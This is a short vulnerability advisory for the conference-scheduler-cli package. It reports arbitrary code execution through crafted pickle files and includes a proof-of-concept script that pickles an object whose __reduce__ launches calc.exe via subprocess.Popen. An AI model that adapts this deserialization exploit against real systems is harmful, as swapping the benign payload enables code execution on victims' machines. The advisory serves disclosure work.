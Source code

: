 # Overview

`conference-scheduler-cli` is a command line tool to manage the schedule for a conference.

This package is vulnerable to Arbitrary Code Execution via a crafted `.pickle` file.

# Proof of Concept

```
from scheduler import io
import os
from pathlib import Path
import pickle
class joel_test(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.Popen, ('calc.exe',))
test = joel_test()
f=open('solution\\scheduler.pickle','wb')
pickle.dump(test,f)
f.close()
io.import_schedule_definition(Path(Path.cwd(), 'solution'))
```

